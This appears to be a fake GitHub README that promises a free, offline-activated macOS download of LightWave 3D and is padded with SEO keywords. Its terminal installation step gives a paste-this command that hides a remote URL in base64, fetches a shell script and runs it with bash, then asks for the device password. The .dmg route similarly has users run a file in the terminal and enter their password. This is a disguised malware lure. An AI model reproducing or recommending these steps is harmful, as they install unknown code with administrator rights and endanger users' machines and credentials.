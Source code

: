 # LightWave 3D for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shuziktobehuman.github.io/huja/LightWave)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 🎯 What You Unlock

- 🔹 Advanced 3D modeling and rendering tools  
- 🎨 High-quality texture mapping and animation features  
- 🚀 Real-time viewport rendering and scene editing  
- 🛠 Customizable workflow and plugin support  
- 🔐 Offline activation for uninterrupted usage  

---

## 🖼 Preview

![LightWave 3D Trial Screen](https://www.awn.com/sites/default/files/styles/original/public/image/featured/1025115-lightwave-3d-offers-free-90-day-lightwave-trial.png?itok=Kg6yQZ0-)  


![LightWave 3D Modelling](https://www.iamag.co/wp-content/uploads/2013/11/Nevron_003.jpg)  


![LightWave 3D Animation](https://i.namu.wiki/i/uKK4deJ5uHcBwf4LZLEP_7cWhuEL02L3E_B35niSdAAo4bJm3cMrSWpbK1HI8W0CjpdYYj7XDGXaIVIFmQAJeQ.webp)  


---

## 🔍 SEO Keywords

lightwave 3d, lightwave software, lightwave 3d download, lightwave 3d software, lightwave newtek, newtek lightwave 3d, lightwave 3d download free, lightwave 3d mac, lightwave 3d tutorial, lightwave 3d offline setup, lightwave 3d activation, lightwave 3d rendering, lightwave 3d modeling, lightwave 3d animation, lightwave 3d full version, lightwave 3d no login, lightwave 3d offline license, lightwave 3d 3d design, lightwave 3d professional tools, lightwave 3d workflow, lightwave 3d texture mapping, lightwave 3d plugin support, lightwave 3d user guide, lightwave 3d mac download, lightwave 3d 3d software mac
